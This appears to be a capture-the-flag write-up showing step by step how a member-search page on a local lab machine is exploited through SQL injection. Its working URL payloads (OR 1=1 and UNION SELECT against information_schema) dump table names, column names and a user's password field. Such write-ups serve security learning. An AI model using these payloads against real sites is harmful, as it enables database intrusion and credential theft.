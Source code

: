 # SQL Injection

url: http://192.168.56.110/?page=member

This URL connects to the MySQL database to list information about members and is vulnerable to SQL injections.

Exploitation in a few steps:

1. List all members with OR 1=1

```
http://192.168.56.110/?page=member&id=1%20OR%201=1&Submit=Submit#
```

We notice that one user has the name "Get The" and "Flag". We assume the flag is hidden in some properties of the user not displayed in this search.

2. Enumerate the database tables

We used a union select attack in order to list more information about the database and write it instead of the user' first name.

```
http://192.168.56.110/?page=member&id=1%20and%201=2%20union%20select%20group_concat(table_name),2%20from%20information_schema.tables%20where%20table_schema%20=%20database()%20--%20-&Submit=Submit#
```

![Result of the union select attack to list the tables from the database](./Resource/enumerate_tables.png)

3. Enumerate the users' columns

```
http://192.168.56.110/?page=member&id=1%20%20union%20select%201,group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=%20database()%20--%20-&Submit=Submit#
```
![Result of the union select attack to list the columns from the users table](./Resource/enumerate_columns.png)

We now know the id of user "Get the Flag" and can narrow the injection to only display this user's information


4. List the other fields of the Get The Flag user

```
http://192.168.56.110/?page=member&id=1%20and%201=2%20union%20select%20group_concat(Commentaire,countersign),2%20from%20users%20where%20user_id=5--%20-&Submit=Submit#
```

![Commentary field from Get The Flag](./Resource/GetTheFlag.png)


Then we just have to do what the commentary ask and we have the flag.

Source: https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635

## FLAG
[-- 🌱 --][2]

[2]: ./flag.txt